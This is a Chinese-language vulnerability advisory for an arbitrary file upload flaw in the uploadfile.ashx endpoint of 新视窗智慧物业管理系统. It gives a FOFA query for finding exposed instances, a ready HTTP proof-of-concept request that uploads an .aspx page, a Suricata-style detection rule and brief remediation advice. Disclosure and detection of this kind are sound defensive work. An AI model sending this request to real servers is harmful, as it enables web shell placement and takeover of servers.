

# 新视窗智慧物业管理系统uploadfile存在任意文件上传漏洞

新视窗智慧物业管理系统uploadfile存在任意文件上传漏洞，攻击者可执行任意命令导致服务器被控。

# 影响版本

新视窗智慧物业管理系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="BPMSite/ClientSupport/OCXInstall.aspx"

POC/EXP：

```
POST /script/uploadify/uploadfile.ashx?id=1 HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 444

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="Filedata"; filename="qaz.aspx"
Content-Type: application/octet-stream

<%@ Page Language="C#" %><% Response.Write("12345678"); %>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"新视窗智慧物业管理系统 - /script/uploadify/uploadfile.ashx Filedata 任意文件上传 (aspx)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/script/uploadify/uploadfile.ashx";
        fast_pattern;
    http.content_type; content:"multipart/form-data";
    http.request_body;
        content:"name=\"Filedata\"";
        content:"filename=\""; distance:0; nocase;
        content:".aspx"; distance:0; nocase;
        content:"Page Language=\"C#\""; distance:0; nocase;
    metadata:
        service http,
        affected_product "新视窗智慧物业管理系统",
        vulnerability_type "Unrestricted File Upload / Webshell Upload",
        severity "critical";
    classtype:web-application-attack;
    sid:1000778;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
